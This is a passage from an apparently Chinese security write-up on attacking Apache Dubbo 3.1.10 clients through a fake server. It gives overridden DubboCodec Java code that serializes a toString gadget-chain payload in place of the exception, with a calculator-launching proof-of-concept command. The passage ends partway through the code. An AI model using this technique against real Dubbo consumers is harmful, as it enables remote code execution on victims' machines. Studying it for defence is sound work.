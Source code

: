 [Dubbo 编解码那些事\_decodeablerpcresult-CSDN博客](https://blog.csdn.net/vivo_tech/article/details/115633937) 可知 `DecodeableRpcResult` 这个类是在 dubbo 服务的消费者接收提供者方发来的响应时解码使用。  
**利用方式一：fake server**  
测试版本：Apache Dubbo 3.1.10  
我们知道 dubbo 支持多种序列化方式，对于 dubbo 协议来说默认为 hessian2，其他如下所示（hessian2 对应 id 为 2，也可以通过 `Serialization.getContentTypeId()` 获得）  
[![](assets/1703064279-ed295015a1a83facfe5c05015d198e0f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231219143052-2812545a-9e38-1.png)  
由官方文档可知，这个协议如何配置完全由服务方定的，因此完全可以做一个 fake server 来诱导客户端主动连接。  
[![](assets/1703064279-f62b3e70204b127e0999e82ac2f6ce0f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231219143144-473e7502-9e38-1.png)  
因此我们可以重写服务端编码响应信息函数的部分逻辑，主动构造一个用于上面提到的 toString 调用链对象来替代 Throwable 实例 th。  
具体重写位置在 `org.apache.dubbo.rpc.protocol.dubbo.DubboCodec#encodeResponseData(org.apache.dubbo.remoting.Channel, org.apache.dubbo.common.serialize.ObjectOutput, java.lang.Object, java.lang.String)`

```plain
@Override
    protected void encodeResponseData(Channel channel, ObjectOutput out, Object data, String version) throws IOException {
        Result result = (Result) data;
        // currently, the version value in Response records the version of Request
        boolean attach = Version.isSupportResponseAttachment(version);
//         Throwable th = result.getException();   
         Object th = null;  // 利用点： 用于 toString 的 gadget chain
         try {
                th = getThrowablePayload("open -a calculator");
            } catch (Exception e) {

            }

        if (th == null) {
            Object ret = result.getValue();
            if (ret == null) {
                out.writeByte(attach ? RESPONSE_NULL_VALUE_WITH_ATTACHMENTS : RESPONSE_NULL_VALUE);
            } else {
                out.writeByte(attach ? RESPONSE_VALUE_WITH_ATTACHMENTS : RESPONSE_VALUE);   
                out.writeObject(ret);   
            }
        } else {
            out.writeByte(attach ? RESPONSE_WITH_EXCEPTION_WITH_ATTACHMENTS : RESPONSE_WITH_EXCEPTION);
//            out.writeThrowable(th); 
            out.writeObject(th);    // 直接序列化对象即可
        }

        if (attach) {
            // returns current version of Response to consumer side.
            result.getObjectAttachments().put(DUBBO_VERSION_KEY, Version.getProtocolVersion());
```